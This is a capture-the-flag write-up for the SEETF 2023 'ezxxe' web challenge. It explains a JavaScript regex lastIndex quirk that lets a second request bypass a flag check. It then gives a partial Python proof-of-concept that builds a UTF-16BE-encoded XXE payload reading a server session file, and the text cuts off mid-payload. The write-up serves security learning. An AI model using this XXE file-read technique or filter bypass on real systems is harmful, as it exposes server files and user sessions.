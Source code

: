 Since the `flagRegex` uses the global flag, this will be relevant to us. It states that if the `test()` returns true (meaning when it matches), the `lastIndex` doesn’t change. Let’s put this to the test.

```jsx
const flagRegex = /SEE{\w{9}}/ig
flag = "SEE{123456789}"

//`lastIndex=0`
console.log(!flagRegex.test(flag)) // false
// `lastIndex=14`
console.log(!flagRegex.test(flag)) // true
```

Pretty weird isn’t it ~ By this, we can essentially just fire a second “pigeon” with the same content to sneak pass the regex `test()` as long as the flag appears in the pigeon’s name. (Refer to Side-notes for more details on how this bypass works.)

![Untitled](images/Untitled%2011.png)

With that, we can successfully get the flag!

### PoC Script

```python
# Written by Kair0s3
# Purpose - To generate UTF8x16BE encoding
# XXE payload for SEETF 2023 ezxxe challenge
import codecs
import os

cwd = os.path.dirname(os.path.realpath(__file__))

# UTF 8 xml heading
xml_head = b'<?xml version="1.0" encoding="UTF-16BE"'

# Replace with your own session.
session = "xtRhaqi2RnjbA9CbTQLnLzFmR3rHtB2K"

xml_payload = '''?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///home/ezxxe/app/sessions/SESSION.json">
]>
<pigeons>
  <pigeon>
    <name>aaaa</name>
    <image>ice.jpeg</image>
    <description>A special kind of drone that can fly in the cold. It is used for espionage campaigns in the Arctic.</description>
```